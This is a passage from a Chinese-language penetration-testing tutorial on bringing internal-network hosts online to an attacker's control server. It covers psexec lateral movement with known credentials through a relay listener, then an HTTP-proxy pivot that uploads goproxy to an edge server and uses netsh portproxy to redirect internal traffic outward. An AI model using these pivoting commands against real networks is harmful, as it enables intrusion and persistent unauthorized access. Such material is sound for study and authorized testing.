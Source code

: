 然后和上面方法一一样，发现内网主机且知道账号密码,psexec横向传递，选择中转listener

![image-20220422001158730.png](assets/attach-e8016d4d1905f53aa758d9fb06c37121465b3d50.png)

![image-20220422001452245.png](assets/attach-b4431393de573e309f09a1d8b2dbc21429b6567f.png)

![image-20220422000337348.png](assets/attach-8aad5b074d56598abe67cd9d454a8a0af59222e6.png)

## 上线方法三：HTTP 代理

> 中转机器不需要上线即可

使用goproxy项目做代理，项目地址：

```php
https://github.com/snail007/goproxy
```

**过程：**

1.上传proxy.exe到web服务器(边缘主机)，在8080端口开启http代理

```php
C:\proxy.exe http -t tcp -p "0.0.0.0:8080" --daemon
```

2.用netsh命令将访问内网ip 192.168.111.131的822端口(必须为未使用的端口，否则会失败)的流量重定向到外网ip 192.168.1.88的8080端口

```php
netsh interface portproxy add v4tov4 listenaddress=192.168.111.131 listenport=822 connectaddress=192.168.1.88 connectport=8080
```

